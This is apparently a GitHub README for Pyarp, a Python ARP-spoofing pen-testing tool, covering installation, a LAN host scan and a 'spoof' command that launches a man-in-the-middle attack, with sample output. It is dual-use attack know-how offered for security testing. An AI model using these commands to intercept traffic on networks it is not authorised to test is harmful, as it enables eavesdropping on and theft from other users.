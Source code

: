 # Pyarp

Pyarp is a simple pen testing tool, written in python. It intercepts packets on a switched LAN by forging ARP replies. It comes with a line-oriented command interpreter, with autocomplete feature and commands history.

## Dependencies  

```
# apt-get install python-dev
# apt-get install setuptools
# apt-get install python-pip
```

## Installation
```
# pip install pyarp
```

## Documentation  

Type `help [command]` to display the information about a command, or check the [Manual](https://github.com/7BISSO/python-arp-spoofer/blob/master/pyarp/data/MANUAL.txt) for full documentation.

<b>Notice : the beta version doesn't support IPv6 yet.</b>


## Usage example  

Set your network interface (press \<tab\> to list all network interfaces)
```
pyarp>> iface wlan0
pyarp>>
```
Scan for connected hosts on LAN
```
pyarp>> scan 192.168.1.0/24
Begin emission:
**Finished to send 256 packets.
...
Received 5 packets, got 2 answers, remaining 254 packets

inet 192.168.1.0/24
iface wlan0

Host 1: MAC a4:7e:39:ab:fb:e0  IP 192.168.1.1
Host 2: MAC 00:0c:6e:da:49:ab  IP 192.168.1.4
pyarp>>
```
Launch MITM attack (Ctrl + C to terminate)
```
pyarp>> spoof 192.168.1.1 192.168.1.4

[+] Attack Launched.

.
Sent 1 packets.
.
Sent 1 packets.
^C
[+] Attack stopped, successful recover.

pyarp>>
```

## License  

The contents of this repository is licensed under [MIT License] (https://github.com/7BISSO/python-arp-spoofer/blob/master/LICENSE).
